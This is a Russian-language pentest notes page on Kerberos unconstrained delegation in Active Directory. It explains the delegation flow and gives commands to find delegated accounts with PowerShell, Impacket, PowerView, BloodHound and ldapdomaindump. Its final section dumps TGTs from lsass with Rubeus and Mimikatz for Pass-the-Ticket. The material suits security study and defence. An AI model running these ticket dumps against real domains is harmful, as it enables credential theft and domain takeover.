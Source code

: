 # Unconstrained delegation

**all objects that have an `SPN` can be configured for delegation**

### Delegation process

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Разбор по шагам:

1. Подразумевается, что учетная запись User не является чувствительной к делегированию и не состоит в группе защищенных пользователей (флаг NOT\_DELEGATED не активен).
2. Сначала User, как уже было рассмотрено ранее, получает TGT в результате обмена [KRB AS REQ](https://ardent101.github.io/posts/kerberos\_delegation/posts/kerberos\_theory/#krb\_as\_req-%D1%81-%D0%BF%D1%80%D0%B5%D0%B4%D0%B2%D0%B0%D1%80%D0%B8%D1%82%D0%B5%D0%BB%D1%8C%D0%BD%D0%BE%D0%B9-%D0%B0%D1%83%D1%82%D0%B5%D0%BD%D1%82%D0%B8%D1%84%D0%B8%D0%BA%D0%B0%D1%86%D0%B8%D0%B5%D0%B9) и [KRB AS REP](https://ardent101.github.io/posts/kerberos\_theory/#krb\_as\_rep-ad) сообщениями.
3. Далее User запрашивает TGS-билет для доступа к Сервису А ([KRB TGS REQ](https://ardent101.github.io/posts/kerberos\_theory/#krb\_tgs\_req-ad)).
4. KDC видит, что у Сервиса А установлен флаг “TRUSTED\_FOR\_DELEGATION”, разрешающий неограниченную делегацию, и поэтому в ответ User KDC отправляет TGS-билет с флагом ok-as-delegate.
5. Получив TGS-билет, User обнаруживает флаг ok-as-delegate и понимает, что ему необходимо передать свои учетные данные Сервису А. Для этого User снова обращается к KDC c просьбой выдать ему перенаправляемый (forwarded) TGT.
6. KDC выполняет необходимые проверки и отправляет User TGT с правом передачи.
7. User обращается к Сервису А с немного расширенным [KRB AP REQ](https://ardent101.github.io/posts/kerberos\_theory/#krb\_ap\_req) сообщением. Теперь в аутентификаторе содержится не только метка времени и принципал клиента, но и перенаправляемый (forwarded) TGT вместе с сессионным ключом для общения с KDC.
8. Сервис А извлекает сессионный ключ для общения с User из TGS-билета, расшифровывает аутентификатор, выполняет проверки и сохраняет Forwarded TGT для User вместе с соответствующим указанному билету сессионным ключом.
9. С использованием полученных аутентификационных данных Сервис А получает TGS-билет к Сервису Б от имени User.



У учетной записи пользователя может быть установлен флаг NOT\_DELEGATED в атрибуте UserAccountControl, запрещающий олицетворение указанного пользователя.

По умолчанию флаг NOT\_DELEGATED отключен и устанавливается либо при активации опции “Account is sensitive and cannot be delegated”, либо при добавлении пользователя в группу “Protected Users”.

> Примечание: среди прочего члены группы “Protected Users” также не могут аутентифицироваться по NTLM, использовать DES или RC4 шифрование в Kerberos, обновлять TGT по истечении 4 часов и кэшировать учетные данные для входа в домен.

Чтобы учетная запись получила право на неограниченное делегирование в атрибуте _UserAccountControl_ указанной учетной записи необходимо установить флаг _TRUSTED\_FOR\_DELEGATION_, которому соответствует целочисленное значение 524288. По умолчанию указанный флаг активен только у машинных учетных записей контроллеров домена.

Для изменения значения флага необходимо наличие привилегии _SeEnableDelegationPrivilege_, которой изначально обладают только учетные записи с правами уровня администратора домена.



### Abuse

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>



### Search accounts with unconstrained delegation

**Вариант 1 - с помощью PowerShell модуля ADSI для работы с Active Directory**

Поиск среди всех учетных записей

```sh
([adsisearcher]'(userAccountControl:1.2.840.113556.1.4.803:=524288)').FindAll() 
```

**Вариант 2 - с помощью** [**FindDelegation.py**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/findDelegation.py)**, входящего в Impacket**

Поиск среди всех учетных записей

```powershell
findDelegation.py -dc-ip $DC_IP $Domain_fqdn/$Username:$Password
```

**Вариант 3 - PowerView**

Поиск среди учетных записей класса компьютер

```powershell
Get-DomainComputer -Unconstrained
```

Поиск среди пользовательских учетных записей

```powershell
Get-DomainUser -TrustedToAuth
```

> Примечание: существует [py-аналог](https://github.com/the-useless-one/pywerview) PowerView для Linux

**Вариант 4 - Bloodhound**

Поиск среди учетных записей класса компьютер:

```powershell
match (c:Computer {unconstraineddelegation:true}) return c.name 
```

Поиск среди пользовательских учетных записей:

```powershell
match (u:User {unconstraineddelegation:true}) return u.name
```

**Вариант 5 - Ldapdomaindump после Relay**

Все приведенные выше способы требовали наличия прав пользователя, но также можно провести Relay атаку по протоколу LDAP на контроллер домена с последующим использованием Ldapdomaindump:

```sh
grep TRUSTED_FOR_DELEGATION domain_computers.grep
grep TRUSTED_FOR_DELEGATION domain_users.grep
```



Получив административный доступ к серверу с сервисом, обладающим неограниченным делегированием, атакующий может извлечь TGT учетных записей, проходивших аутентификацию к указанному сервису, из памяти процесса lsass.exe сервера.

Осуществить выгрузку можно с помощью Rubeus:

```powershell
Rubeus.exe dump /service:krbtgt /nowrap
```

Или при помощи Mimikatz:

```powershell
mimikatz # sekurlsa::tickets /export
```

Полученные TGT можно использовать для проведения атаки Pass-the-Ticket.
